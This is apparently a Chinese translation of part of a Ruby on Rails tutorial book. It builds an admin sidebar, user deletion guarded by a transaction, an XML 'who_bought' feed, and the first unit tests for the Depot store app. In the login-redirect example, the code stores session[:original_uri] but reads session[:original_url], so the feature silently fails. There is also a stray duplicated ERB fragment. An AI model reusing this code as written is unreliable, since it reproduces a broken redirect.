depot> rake db:sessions:clear
```

访问[http://localhost:3000/admin/list](http://localhost:3000/admin/list)。过滤器方法在我们前往产品列表的途中拦截了我们，并向我们显示了登录屏幕。

我们向客户展示了，收获了一个灿烂的微笑和一个请求。我们能否添加一个侧边栏，并将指向用户和产品管理的链接放在其中？而且既然我们在那里，能否添加列出和删除管理员用户的功能？当然可以！

## 11.4 迭代 F4：侧边栏，更多管理

让我们从侧边栏开始。根据我们使用订单控制器的经验，我们知道需要创建一个布局。管理员控制器的布局将位于`app/views/layouts`目录中的文件`admin.rhtml`中。

### 更友好的登录系统

目前代码的逻辑是，如果管理员在登录前尝试访问受限页面，系统会将其重定向到登录页面。登录后，系统会显示标准的欢迎页面——他们最初的请求被遗忘了。如果你愿意，可以修改应用程序，使其在登录后跳转到最初请求的页面。

首先，在`authorize()`方法中，如果需要用户登录，就将原始请求的URI保存在会话中。

```ruby
def authorize
  unless User.find_by_id(session[:user_id])
    session[:original_uri] = request.request_uri
    flash[:notice] = "Please log in"
    redirect_to(:controller => "login", :action => "login")
  end
end
```

一旦用户登录成功，我们就可以检查会话中是否有保存的URI，如果有，就重定向到该地址。

```ruby
def login
  session[:user_id] = nil
  if request.post?
    user = User.login(params[:name], params[:password])
    if user
      session[:user_id] = user.id
      redirect_to(session[:original_url] || { :action => "index" })
    else
      flash[:notice] = "Invalid user/password combination"
    end
  end
end
```

下载`depot_q/app/views/layouts/admin.rhtml`。

```erb
<html>
<head>
  <title>Administer the Bookstore</title>
  <%= stylesheet_link_tag "scaffold", "depot", :media => "all" %>
</head>
<body id="admin">
  <div id="banner">
    
    <%= @page_title || "Pragmatic Bookshelf" %>
  </div>
  <div id="columns">
    <div id="side">
<p>
  <%= link_to "Products",      :controller => 'admin', :action => 'list' %>
</p>
<p>
  <%= link_to "List users",    :controller => 'login', :action => 'list_users' %>
  <br/>
  <%= link_to "Add user",      :controller => 'login', :action => 'add_user' %>
</p>
<p>
  <%= link_to "Logout",        :controller => 'login', :action => 'logout' %>
</p>
</div>
<div id="main">
<% if flash[:notice] -%>
  <div id="notice"><%= flash[:notice] %></div>
<% end -%>
  <%= @content_for_layout %>
</div>
</div>
</body>
</html>
```

我们在布局文件的侧边栏中添加了各个管理功能的链接。现在，让我们来实现它们。

### 列出用户

向登录控制器添加用户列表功能很简单。控制器动作在一个实例变量中设置好列表数据。

```ruby
def list_users
  @all_users = User.find(:all)
end
```

我们在`list_users.rhtml`模板中显示这个列表。我们为每一行添加一个指向`delete_user`动作的链接——我们不会设计一个需要输入用户名然后删除的界面，而是直接在每个用户名旁边添加一个删除链接。

```erb
<h1>Administrators</h1>
<ul>
  <% for user in @all_users %>
    <li><%= link_to "[X]", { # link_to options
                              :controller => 'login',
                              :action => 'delete_user',
                              :id => user},
                     { # html options
                              :post => true,
                              :confirm => "Are you sure?"} %>
    <%= user.name %></li>
  <% end %>
</ul>
```



```erb
:confirm => "Really delete #{user.name}?"
}
<%= user.name %>
</li>
<% end %>
</ul>
```

### 最后一个管理员离开时……

删除用户的代码很简单。登录控制器的`delete_user`动作通过`id`参数来识别要删除的用户。它需要做的就是类似下面的操作：

```ruby
def delete_user
  user = User.find(params[:id])
  user.destroy
  redirect_to :action => :list_users
end
```

我们来测试一下。我们打开类似图11.2的列表页面，点击*dave*旁边的 X 来删除该用户。果然，用户被删除了，显示了一个空列表。我们点击*添加用户*链接想把自己重新加回系统，但惊讶地发现我们被带到了登录界面。我们刚刚从系统中删除了唯一的管理员用户。当下一个请求到来时，认证失败，因此应用程序拒绝了我们。我们不得不重新登录才能使用任何管理功能。但现在我们遇到了一个尴尬的问题：数据库中已经没有管理员用户了，所以我们无法登录。

幸运的是，我们可以通过命令行快速向数据库添加一个用户。如果你运行命令`script/console`，Rails会启动 Ruby 的`irb`工具，但这个工具是在你的 Rails 应用程序上下文中运行的。这意味着你可以通过输入 Ruby 语句并查看返回值来与你的应用程序代码交互。我们可以用它来直接调用我们的用户模型，让它为我们重新添加一个用户。

```text
dave[code/depot_q 19:20:09] script/console
Loading development environment.
>> User.create(:name => 'dave', :password => 'secret',
               :password_confirmation => 'secret')
=> #<User:0x2933060 @attributes={...} ... >
>> User.count
=> 1
```

`>>`序列是提示符：第一次提示后，我们调用`User`类创建了一个新用户；第二次提示后，我们再次调用它来确认数据库中确实只有一个用户。每输入一条命令后，`script/console`都会显示代码执行返回的值（第一种情况是模型对象，第二种情况是计数）。

警报解除——我们现在可以重新登录应用程序了。但是，我们如何阻止这种情况再次发生呢？有几种方法。例如，我们可以编写代码，使你不能删除自己的用户。但这并不完全可行——理论上，A可以在B删除A的同一时刻删除B。所以，我们尝试一种不同的方法。我们将在一个*事务*的范围内执行删除操作。如果在删除用户后，数据库中没有任何用户剩下，我们就回滚事务，恢复被删除的用户。

我们将在用户模型中编写一个辅助方法来完成实际工作。

```ruby
def safe_delete
  transaction do
    destroy
    if User.count.zero?
      raise "Can't delete last user"
    end
  end
end
```

然后在登录控制器中编写一个`delete_user`动作。

```ruby
def delete_user
  id = params[:id]
  if id && user = User.find(id)
    begin
      user.safe_delete
      flash[:notice] = "User #{user.name} deleted"
    rescue Exception => e
      flash[:notice] = e.message
    end
  end
  redirect_to(:action => :list_users)
end
```

这里的关键概念是使用异常来指示删除用户时发生的错误。这个异常有两个目的。在事务内部，异常会导致自动回滚。通过在删除后用户表为空的情况下引发异常，我们撤销了删除操作并恢复了最后一个用户。

其次，异常将错误信号传递回控制器，在那里我们使用`begin/end`代码块来处理异常，并通过闪存消息向用户报告错误。

### 注销

我们的管理布局在侧边栏菜单中有一个注销选项。它在登录控制器中的实现非常简单。

```ruby
def logout
  session[:user_id] = nil
  flash[:notice] = "Logged out"
  redirect_to(:action => "login")
end
```

我们最后一次请来我们的客户，她试用了商店应用程序。她测试了我们的新管理功能，并体验了买家流程。她尝试输入一些错误的数据。应用程序表现得很出色。她微笑着，而我们也快完成了。

我们已经完成了功能的添加，但在离开之前，我们最后检查了一遍代码。我们注意到商店控制器中有一处略显丑陋的重复代码。除了`empty_cart`之外的每个动作，都必须在会话数据中查找用户的购物车。这一行

```ruby
@cart = find_cart
```

在控制器中随处可见。既然我们现在了解了过滤器，就可以修复这个问题了。我们将修改`find_cart()`方法，使其将结果直接存储到`@cart`实例变量中。

```ruby
### Download depot_q/app/controllers/store_controller.rb
def find_cart
  @cart = (session[:cart] ||= Cart.new)
end
```


然后，我们将使用一个`before_filter`，让除了`empty_cart`之外的每个动作都调用这个方法。

```ruby
### Download depot_q/app/controllers/store_controller.rb
before_filter :find_cart, :except => :empty_cart
```

这样，我们就可以移除动作方法中其他所有对`@cart`的赋值。最终的列表从第555页开始显示。

### 我们刚刚做了什么

在这个迭代结束时，我们完成了以下工作：

- 创建了一个用户模型和数据库表，并对属性进行了验证。它使用加盐哈希将密码存储在数据库中。我们创建了一个表示明文密码的虚拟属性，并编写了代码，使其在明文版本更新时自动生成哈希版本。
- 手动创建了一个用于管理用户的控制器，并研究了单动作更新方法（该方法根据通过 HTTP GET 还是 POST 调用而执行不同的路径）。我们使用了`form_for`辅助方法来渲染表单。
- 我们创建了一个登录动作。这里使用了一种不同风格的表单——一个没有对应模型的表单。我们了解了参数如何在视图和控制器之间传递。
- 我们将一些应用程序范围的控制器辅助方法移动到了`app/controllers`目录下的`application.rb`文件中的`ApplicationController`类里。
- 我们使用`before_filter`来调用`authorize()`方法，从而控制对管理功能的访问。
- 我们看到了如何使用`script/console`直接与模型交互（并在我们删除最后一个用户后帮我们摆脱了困境）。
- 我们了解了事务如何帮助防止我们再次删除最后一个用户。

在本章中，我们将学习：

- `has_many :through`关联表
- 创建 REST 接口
- 使用 rxml 模板生成 XML
- 使用模型对象的`to_xml`方法生成 XML
- 处理不同内容类型的请求
- 创建应用文档
- 获取应用统计数据

## 第 12 章

## 任务 G：最后一份薄切片般的微小改动

在最初的几次迭代之后的几天里，我们为购物系统添加了订单履行功能并将其上线。它取得了巨大的成功，在接下来的几个月里，Depot 应用程序成为了业务的核心部分。事实上，它如此重要，以至于市场部的人也产生了兴趣。他们想向购买过特定书籍的人群发送大量邮件，告知他们新书已经上架。他们已经有了那个垃圾邮件系统；只需要一个包含客户姓名和电子邮件地址的 XML 源即可。

### 12.1 生成 XML 源

让我们为我们的应用程序设置一个 REST 风格的接口。REST 代表表述性状态转移，这个术语基本上没什么实际意义。它真正的含义是使用 HTTP 动词（GET、POST、DELETE 等）在应用程序之间发送请求和响应。在我们的案例中，我们将允许市场部系统向我们发送一个 HTTP GET 请求，询问购买了特定产品的客户详情。我们的应用程序将返回一个 XML 文档。¹ 我们与市场部的 IT 人员进行了沟通，他们同意使用一个简单的请求 URL 格式：

```text
http://my.store.com/info/who_bought/<product id>
```

¹ 我们本可以使用 Web 服务来实现这种传输——Rails 同时支持作为 SOAP 和 XML-RPC 客户端与服务器。然而，这在此案例中似乎有点大材小用。



所以，我们需要解决两个问题：我们需要能够找到购买了特定产品的客户，并且需要从这个列表生成一个 XML 源。让我们先从生成列表开始。

### 遍历表

图 12.1 展示了我们数据库中订单部分的当前结构。每个订单都有多个订单项，每个订单项都关联一个产品。我们的市场人员想要反向遍历这些关联，从一个特定产品找到所有引用该产品的订单项，然后从这些订单项找到对应的订单。

从 Rails 1.1 开始，我们可以使用`:through`关联来实现这一点。我们可以在产品模型中添加以下声明：

```ruby
### Download depot_q/app/models/product.rb
class Product < ActiveRecord::Base
  has_many :orders, :through => :line_items
end
```

之前我们使用`has_many`在产品和订单项之间建立了父子关系：我们说过一个产品拥有多个订单项。现在，我们说一个产品也与多个订单关联，但这两个表之间没有直接关系。相反，Rails 知道要获取产品的订单，它必须首先找到产品的订单项，然后找到与每个订单项关联的订单。

这听起来可能效率相当低。如果 Rails 先获取订单项，然后遍历每个订单项来加载订单，那确实会如此。幸运的是，它比这更聪明。如果你查看我们即将编写的代码运行时的日志文件，你会看到 Rails 生成了一个高效的 SQL 表连接，让数据库引擎能够优化查询。

有了`:through`声明，我们可以通过引用产品的`orders`属性来找到特定产品的订单：

```ruby
product = Product.find(id)
orders = product.orders
logger.info("Product #{id} has #{orders.count} orders")
```

### 创建 REST 接口

预料到这不会是市场部人员提出的最后一个请求，我们创建了一个新的控制器来处理信息查询请求。

```text
depot> ruby script/generate controller info
exists  app/controllers/
exists  app/helpers/
create  app/views/info
exists  test/functional/
create  app/controllers/info_controller.rb
create  test/functional/info_controller_test.rb
create  app/helpers/info_helper.rb
```

我们将添加`who_bought`动作，它根据给定的产品 id 加载订单列表。

```ruby
def who_bought
    @product = Product.find(params[:id])
    @orders  = @product.orders
end
```

现在我们需要实现向调用方返回 XML 的模板。我们可以使用与渲染网页相同的 rhtml 模板来做到这一点，但有几种更好的方法。第一种是使用 rxml 模板，旨在简化 XML 文档的创建。让我们看看`who_bought.rxml`，这是一个在`app/views/info`目录中创建的模板。

```ruby
### Download depot_q/app/views/info/who_bought.rxml
xml.order_list(:for_product => @product.title) do
    for o in @orders
        xml.order do
            xml.name(o.name)
            xml.email(o.email)
        end
    end
end
```



信不信由你，这仅仅是 Ruby 代码。它使用了 Jim Weirich 的 builder 库，该库在执行程序的过程中会生成格式良好的 XML 文档。

在 rxml 模板中，变量`xml`代表正在构建的 XML 对象。当你在这个对象上调用一个方法时（例如在我们模板第一行调用`order_list()`），builder 会发出相应的 XML 标签。如果传递一个哈希给这些方法中的一个，它将被用于构造 XML 标签的属性。如果你传递一个字符串，它将被用作标签的值。

如果你想嵌套标签，可以向外部 builder 方法调用传递一个代码块。在代码块内创建的 XML 元素将被嵌套在外部元素内。我们在示例中使用这个特性，将`<order>`标签列表嵌入到`<order_list>`中，然后将`<name>`和`<email>`标签嵌入到每个`<order>`中。

我们可以使用浏览器或从命令行测试此方法。如果你在浏览器中输入该 URL，将返回 XML。其显示方式取决于浏览器：在我的 Mac 上，Safari 渲染文本并忽略标签，而 FireFox 显示一个高亮显示良好的 XML 表示（如图 12.2 所示）。在所有浏览器中，View|Source 选项应该显示从我们的应用程序发送的原始内容。

你也可以使用`curl`或`wget`等工具从命令行查询你的应用程序。

```text
depot> curl http://localhost:3000/info/who_bought/1
<order_list for_product="Pragmatic Project Automation">
  <order>
    <name>Dave Thomas</name>
    <email>customer@pragprog.com</email>
  </order>
  <order>
    <name>F &amp; W Flintstone</name>
    <email>rock_crusher@bedrock.com</email>
  </order>
</order_list>
```

事实上，这引出了一个有趣的问题：我们能否安排一下，让从浏览器访问此动作的用户看到一个格式良好的列表，而那些发起 REST 请求的用户得到 XML 返回？

### 恰当响应

请求通过 HTTP 协议进入 Rails 应用程序。HTTP 消息由一些头部和（可选的）一些数据（如来自表单的 POST 数据）组成。其中一个头部是`Accept:`，客户端使用它来告诉服务器可能返回的内容类型。例如，浏览器可能发送一个包含以下头部的 HTTP 请求：

```text
Accept: text/html, text/plain, application/xml
```

理论上，服务器只应该返回匹配这三种类型之一的内容。

我们可以利用这一点来编写根据 accept 头部做出适当内容响应的动作。例如，我们可以编写一个单一的`who_bought`动作，它检查 accept 头部。如果客户端只接受 XML，那么我们可以返回 XML 格式的 REST 响应。如果客户端接受 HTML，那么我们可以渲染一个 HTML 页面来代替。

在 Rails 中，我们使用`respond_to()`方法根据 accept 头部执行条件处理。首先，让我们为 HTML 视图编写一个简单的模板。

```ruby
### Download depot_r/app/views/info/who_bought.rhtml
<h3>People Who Bought <%= @product.title %></h3>
<ul>
  <% for order in @orders -%>
    <li>
      <%= mail_to order.email, order.name %>
    </li>
  <% end -%>
</ul>
```

现在我们将使用`respond_to()`根据传入请求的`Accept`头部来路由到正确的模板。

```ruby
### app/controllers/info_controller.rb

def who_bought
  @product = Product.find(params[:id])
  @orders  = @product.orders
  respond_to do |accepts|
    accepts.html
    accepts.xml
  end
end
```

在`respond_to`块中，我们列出了可接受的内容类型。你可以把它想象成一个 case 语句，但有一个重大区别：它忽略你列出选项的顺序，而是使用传入请求的顺序（因为客户端可以说明它偏好的格式）。

这里我们使用每种内容类型的默认动作。对于`html`，该动作是调用`render`。对于`xml`，该动作是渲染`.rxml`模板。最终效果是客户端可以选择从同一操作接收 HTML 或 XML。

不幸的是，这很难用浏览器测试。让我们改用命令行客户端。这里我们展示`curl`（但`wget`等工具同样适用）。`curl`的`-H`选项允许我们指定请求头。让我们先请求 XML。

```text
depot> curl -H 'Accept: application/xml' \
          http://localhost:3000/info/who_bought/1
<order_list for_product="Pragmatic Project Automation">
  <order>
    <name>Dave Thomas</name>
    <email>customer@pragprog.com</email>
  </order>
  <order>
    <name>F &amp; W Flintstone</name>
    <email>crusher@bedrock.com</email>
  </order>
</order_list>
```

然后是 HTML。

```text
depot> curl -H 'Accept: text/html' \
          http://localhost:3000/info/who_bought/1
<h3>People Who Bought Pragmatic Project Automation</h3>
<ul>
  <li>
    <a href="mailto:customer@pragprog.com">Dave Thomas</a>
  </li>
  <li>
    <a href="mailto:crusher@bedrock.com">F & W Flintstone</a>
  </li>
</ul>
```

### 自动生成 XML

在前面的例子中，我们手动使用 rxml 模板生成了 XML 响应。这让我们能控制返回元素的顺序。但如果顺序不重要，我们可以让 Rails 通过调用模型的`to_xml()`方法来为模型对象生成 XML。在下面的代码中，我们覆盖了 XML 请求的默认行为以使用此方法。

```ruby
def who_bought
    @product = Product.find(params[:id])
    @orders   = @product.orders
    respond_to do |accepts|
        accepts.html
        accepts.xml { render :xml => @product.to_xml(:include => :orders) }
    end
end
```

`render()`的`:xml`选项告诉它将响应内容类型设置为`application/xml`。然后`to_xml`调用的结果会发送回客户端。在这个例子中，我们输出了`@product`变量以及引用该产品的任何订单。


```bash
depot> curl -H 'Accept: application/xml' \
             http://localhost:3000/info/who_bought/1
<?xml version="1.0" encoding="UTF-8"?>
<product>
    <image-url>/images/auto.jpg</image-url>
    <title>Pragmatic Project Automation</title>
    <price type="integer">2995</price>
    <orders>
        <order>
            <name>Dave Thomas</name>
            <id type="integer">1</id>
            <pay-type>check</pay-type>
            <address>123 The Street</address>
            <email>customer@pragprog.com</email>
        </order>
        <order>
            <name>F &amp; W Flintstone</name>
            <id type="integer">2</id>
            <pay-type>check</pay-type>
            <address>123 Bedrock</address>
            <email>crusher@bedrock.com</email>
        </order>
    </orders>
    <id type="integer">1</id>
    <description>&lt;p&gt;
&lt;em&gt;Pragmatic Project Automation&lt;/em&gt; shows
you how to improve the consistency and repeatability of
your project's procedures using automation to reduce risk
and errors. &lt;/p&gt; &lt;p&gt; Simply put, we're going
to put this thing called
a computer to work for you doing the mundane (but
important) project stuff. That means you'll have more time
and energy to do the really exciting---and
difficult---stuff, like writing quality code.
&lt;/p&gt;
    </description>
</product>
```

请注意，默认情况下 `to_xml` 会输出所有内容。你可以告诉它排除某些属性（如我们在第 ?? 页所示），但这很快会变得混乱，因此除非是最简单的情况，否则最好坚持使用 `rxml` 模板。

## 12.2 收尾工作

编码工作结束了，但在将应用程序部署到生产环境之前，我们还可以做一些整理工作。

我们可能想查看一下应用程序的文档。在编码过程中，我们为所有类和方法编写了简短而优雅的注释。（在本书的代码摘录中我们没有展示它们，是为了节省空间。）Rails 使得在应用程序的所有源文件上运行 Ruby 的 RDoc 工具来创建漂亮的程序员文档变得很容易。但在生成该文档之前，我们可能应该先创建一个很好的介绍页面，这样未来的开发者就会知道我们的应用程序是做什么的。为此，请编辑文件 `doc/README_FOR_APP` 并输入任何你认为可能有用的内容。该文件将使用 RDoc 进行处理，因此你有很大的格式灵活性。

你可以使用 `rake` 命令生成 HTML 格式的文档。

```bash
depot> rake doc:app
```

这会在 `doc/app` 目录中生成文档。下一页的图 12.3 显示了生成输出的初始页面。



图 12.3：我们应用程序的内部文档

本章由 Mike Clark（[http://clarkware.com](http://clarkware.com)）撰写。Mike 是一位独立顾问、作家和培训师。最重要的是，他是一名程序员。他帮助团队使用敏捷实践更快地构建更好的软件。凭借在 J2EE 和测试驱动开发方面的丰富背景，他目前正在将经验应用于 Rails 项目。

# 第 13 章

## 任务 T：测试

在短时间内，我们开发了一个像样的基于网络的购物车应用程序。在此过程中，我们通过编写少量代码，然后在 Web 浏览器中点击按钮（让客户在旁边），查看应用程序是否按预期运行，从而获得快速反馈。这种测试策略在你开发 Rails 应用程序的第一个小时左右是有效的，但不久之后，你积累了足够的功能，使得手动测试无法扩展。每次不得不点击所有按钮时，你的手指会感到疲惫，头脑也会麻木，因此你很少测试，甚至从不测试。

然后有一天你做了一个小改动，它破坏了一些功能，但你直到客户打电话来说她不再满意时才意识到。如果这还不够糟糕，那么你还要花几个小时才能弄清楚到底出了什么问题。你在这里做了一个无伤大雅的改动，但却破坏了那边的东西。等你解开这个谜团时，客户已经找到了新的最佳程序员。事情不必这样。对此有一个实际的替代方案：编写测试！

在本章中，我们将为我们都熟知并喜爱的应用程序——Depot 应用程序——编写自动化测试。理想情况下，我们应该增量地编写这些测试，以便在过程中获得一些信心提升。因此，我们称此为任务 T，因为我们应该一直在做测试。你会发现本章代码的清单从第 ?? 页开始。

### 13.1 测试直接内置

在构建 Depot 应用程序的过程中，我们一直在进行快速而宽松的编码，很容易让人以为 Rails 将测试视为事后考虑。事实远非如此。Rails 框架真正的乐趣之一是它从每个项目开始就内置了测试支持。事实上，从你使用 `rails` 命令创建新应用程序的那一刻起，Rails 就开始为你生成测试基础设施。

我们还没有为 Depot 应用程序编写任何测试代码，但如果你查看该项目的顶层目录，你会注意到一个名为 `test` 的子目录。在这个目录中，你会看到五个目录和一个辅助文件。

```text
depot> ls -p test
fixtures/           integration/        test_helper.rb
functional/         mocks/              unit/
```

所以我们的第一个决定——把测试放在哪里——已经为我们决定了。`rails` 命令创建了完整的 `test` 目录结构。

按照惯例，Rails 称测试模型的东西为*单元测试*，测试控制器的东西为*功能测试*。让我们看看 `unit` 和 `functional` 子目录里面已经有什么了。

```text
depot> ls test/unit
order_test.rb    line_item_test.rb    product_test.rb

depot> ls test/functional
admin_controller_test.rb        store_controller_test.rb
info_controller_test.rb
```

看！Rails 已经创建了文件来存放我们之前用 `generate` 脚本创建的模型的单元测试和控制器的功能测试。这是一个好的开始，但 Rails 只能帮助我们这么多。它把我们引向正确的道路，让我们专注于编写好的测试。我们将从数据所在的地方开始，然后向更接近用户所在的地方移动。

### 13.2 模型的单元测试

我们在第 6 章“任务 A：产品维护”（第 59 页）为 Depot 应用程序创建的第一个模型是 `Product`。让我们看看当我们生成该模型时，Rails 在 `test/unit/product_test.rb` 文件中生成了什么样的测试内容。

```ruby
require File.dirname(__FILE__) + '/../test_helper'

class ProductTest < Test::Unit::TestCase
  fixtures :products

  # Replace this with your real tests.
```

```ruby
def test_truth
  assert true
end
```

好的，我们的第二个决定——如何编写测试——已经为我们准备好了。`ProductTest` 是 `Test::Unit::TestCase` 类的子类这一事实告诉我们，Rails 是基于 Ruby 预装的 Test::Unit 框架生成测试的。这是个好消息，因为这意味着如果我们已经用 Test::Unit 测试过我们的 Ruby 程序（你难道不想这样做吗？），那么我们就可以利用这些知识来测试 Rails 应用程序。如果你对 Test::Unit 不熟悉，别担心。我们会慢慢来。

现在，测试用例内部生成的代码是怎么回事？Rails 为我们生成了两样东西。第一样是这一行：

```ruby
fixtures :products
```

这一行背后隐藏着很多魔法——它允许我们用恰到好处的测试数据预先填充数据库——我们稍后会深入讨论它。

Rails 生成的第二样东西是 `test_truth()` 方法。如果你熟悉 `Test::Unit`，你会对这个方法非常了解。它的名字以 `test` 开头，这一事实意味着它将被测试框架作为测试运行。而里面的 `assert` 行是一个实际的测试。不过，它算不上什么测试——它只是测试 `true` 是否为真。显然，这是一个占位符，但它很重要，因为它让我们看到所有测试基础设施都已就绪。那么，让我们尝试运行这个测试类。

```text
depot> ruby test/unit/product_test.rb
Loaded suite test/unit/product_test
Started
EE
Finished in 0.559942 seconds.

1) Error:
test_truth(ProductTest):
MysqlError: Unknown database 'depot_test'
... a whole bunch of tracing...
1 tests, 0 assertions, 0 failures, 2 errors
```

猜错了，结果并非如此。测试不只是失败了，它还崩溃了！谢天谢地，它给我们留下了一条线索——它找不到名为 `depot_test` 的数据库。嗯。

### 专用于测试的数据库

还记得第60页我们为 Depot 应用程序创建开发数据库吗？我们把它叫做 `depot_development`。这是因为 Rails 在 `config` 目录下的 `database.yml` 文件中给它的默认名称就是这个。如果你再次查看那个配置文件，你会注意到 Rails 实际上创建了三个独立数据库的配置。

- `depot_development` 将是我们的开发数据库。我们所有的编程工作都将在这里完成。
- `depot_test` 是一个测试数据库。
- `depot_production` 是生产数据库。当我们的应用上线时，就会使用这个。

到目前为止，我们一直在开发数据库中完成所有工作。但现在我们正在运行测试，Rails 需要使用测试数据库，而我们还没有创建一个。

现在让我们来解决这个问题。由于我们使用的是 MySQL 数据库，我们将再次使用 `mysqladmin` 来创建数据库。

```bash
depot> mysqladmin -u root create depot_test
```

现在让我们再次运行测试。

```text
depot> ruby test/unit/product_test.rb
Loaded suite test/unit/product_test
Started
EE
Finished in 0.06429 seconds.

1) Error:
test_truth(ProductTest):
ActiveRecord::StatementInvalid: MysqlError:
Table 'depot_test.products' doesn't exist: DELETE FROM products
1 tests, 0 assertions, 0 failures, 2 errors
```

哦，天哪！比上次好不了多少。但错误不同了。现在它抱怨我们在测试数据库中没有 `products` 表。确实没有：目前我们只有一个空的模式。让我们填充测试数据库的模式，使其与我们的开发数据库匹配。我们将使用 `db:test:prepare` 任务来复制模式。

```bash
depot> rake db:test:prepare
```

现在我们有了一个数据库，而且它包含了模式，让我们再试一次单元测试。

```text
depot> ruby test/unit/product_test.rb
Loaded suite test/unit/product_test
Started
.
Finished in 0.085795 seconds.
1 tests, 1 assertions, 0 failures, 0 errors
```

好的，看起来好多了。看到存根测试并非真的毫无意义了吧？它让我们设置好了测试环境。现在环境已经就绪，让我们开始编写一些真正的测试吧。

### 一个真正的单元测试

自从 Rails 最初生成 `Product` 模型以来，我们已经向其中添加了相当多的代码。其中一些代码处理验证。

```ruby
class Product < ActiveRecord::Base
  validates_presence_of :title, :description, :image_url
  validates_numericality_of :price, :only_integer => true
  validates_uniqueness_of :title
  validates_format_of :image_url,
                    :with    => %r{\.(gif|jpg|png)$}i,
                    :message => "must be a URL for a GIF, JPG, or PNG image"

  protected

  def validate
    errors.add(:price, "should be positive") if price.nil? || price <= 0
  end
end
```

我们怎么知道这个验证是有效的呢？让我们测试它。首先，如果我们创建一个没有任何属性设置的产品，我们预期它将是无效的，并且每个字段都应该有一个相关的错误。我们可以使用模型的 `valid?()` 方法来查看它是否通过验证，我们也可以使用错误列表的 `invalid?()` 方法来查看是否有与特定属性相关的错误。

现在我们知道要测试*什么*，我们需要知道*如何*告诉测试框架我们的代码是通过还是失败。我们通过**断言**来做到这一点。断言只是一个方法调用，它告诉框架我们期望什么是真的。最简单的断言是 `assert()` 方法，它期望其参数为真。如果为真，则不会发生任何特殊情况。然而，如果 `assert()` 的参数为假，则断言失败。框架将输出一条消息，并停止执行包含失败的测试方法。尽管任何剩余的测试方法仍会被执行，但测试用例本身将被视为失败。在我们的例子中，我们期望一个空的 `Product` 模型不会通过验证，所以我们可以通过断言它无效来表达这个期望：

```ruby
assert !product.valid?
```

### 让我们编写完整的测试

下载 `depot_r/test/unit/product_test.rb`

```ruby
def test_invalid_with_empty_attributes
  product = Product.new
  assert !product.valid?
  assert product.errors.invalid?(:title)
  assert product.errors.invalid?(:description)
  assert product.errors.invalid?(:price)
  assert product.errors.invalid?(:image_url)
end
```

当我们运行测试用例时，现在会看到两个测试被执行（原始的 `test_truth` 方法和我们新的测试方法）。

```text
depot> ruby test/unit/product_test.rb
Loaded suite test/unit/product_test
Started
..
Finished in 0.092314 seconds.

2 tests, 6 assertions, 0 failures, 0 errors
```

果然，验证生效了，我们所有的断言都通过了。显然，此时我们可以更深入地探究，并测试各个验证。让我们看看众多可能测试中的三个。首先，我们将检查价格的验证是否按预期工作。

下载 `depot_r/test/unit/product_test.rb`


```ruby
def test_positive_price
  product = Product.new(:title       => 'xxx',
                       :description => 'yyy',
                       :image_url   => 'zzz.jpg')

  product.price = -1
  assert !product.valid?
  assert_equal "should be positive", product.errors.on(:price)

  product.price = 0
  assert !product.valid?
  assert_equal "should be positive", product.errors.on(:price)

  product.price = 1
  assert product.valid?
end
```

在这段代码中，我们创建了一个新产品，然后尝试将其价格分别设置为 `-1`、`0` 和 `+1`，每次设置后都对产品进行验证。如果我们的模型正常工作，前两个应该无效，我们验证与 `price` 属性关联的错误消息是我们期望的那样。最后一个价格是可接受的，所以我们断言模型现在是有效的。（有些人会把这三个测试放在三个单独的测试方法中——这是完全合理的。）

接下来，我们将测试图像 URL 的验证是否以 `.gif`、`.jpg` 或 `.png` 结尾。

下载 `depot_r/test/unit/product_test.rb`。

```ruby
def test_image_url
    ok = %w{ fred.gif fred.jpg fred.png FRED.JPG FRED.Jpg
              http://a.b.c/x/y/z/fred.gif }
    bad = %w{ fred.doc fred.gif/more fred.gif.more }

    ok.each do |name|
      product = Product.new(:title          => 'xxx',
                            :description    => 'yyy',
                            :price          => 1,
                            :image_url      => name)
      assert product.valid?, product.errors.full_messages
    end

    bad.each do |name|
